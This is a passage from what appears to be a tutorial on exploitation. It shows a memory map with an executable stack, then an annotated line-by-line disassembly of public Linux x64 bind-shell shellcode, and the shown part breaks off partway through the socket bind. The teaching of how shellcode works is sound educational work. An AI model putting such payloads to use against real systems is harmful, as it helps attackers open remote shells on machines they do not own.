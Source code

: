 		[...]

		7fffca43d000-7fffca45e000 rwxp 00000000 00:00 0                          [stack]

Demistifying shellcode
----------------------

So it's time for some old-school shellcoding! Let's ask google "shellcode linux x64", the first result points me to this: 

[http://shell-storm.org/shellcode/files/shellcode-858.php](http://shell-storm.org/shellcode/files/shellcode-858.php)

Seeing a shellcode for the first time, it can appear scary and overly complex, or even - literally - mystical. In fact, especially in this case, by understanding it line by line it is possible to discover that it is dead simple:


	; 0 - zeroing out things

	  400080:   48 31 c0                xor    rax,rax
	  400083:   48 31 ff                xor    rdi,rdi
	  400086:   48 31 f6                xor    rsi,rsi
	  400089:   48 31 d2                xor    rdx,rdx
	  40008c:   4d 31 c0                xor    r8,r8

	; 1 - create a socket

	  ; family = 2
	  40008f:   6a 02                   push   0x2
	  400091:   5f                      pop    rdi

	  ; type = 1
	  400092:   6a 01                   push   0x1
	  400094:   5e                      pop    rsi

	  ; protocol = 6
	  400095:   6a 06                   push   0x6
	  400097:   5a                      pop    rdx

	  ; socket(2,1,6) call
	  400098:   6a 29                   push   0x29
	  40009a:   58                      pop    rax
	  40009b:   0f 05                   syscall

	  ; store the new socket in r8
	  40009d:   49 89 c0                mov    r8,rax


	; 2 - bind the socket to the chosen port


	  ; allocate and zero-out 16 bytes, the space for struct sockaddr:
	  ;			struct sockaddr {
	  ;               sa_family_t sa_family;
	  ;               char        sa_data[14];
	  ;          	}

	  4000a0:   4d 31 d2                xor    r10,r10
	  4000a3:   41 52                   push   r10
	  4000a5:   41 52                   push   r10
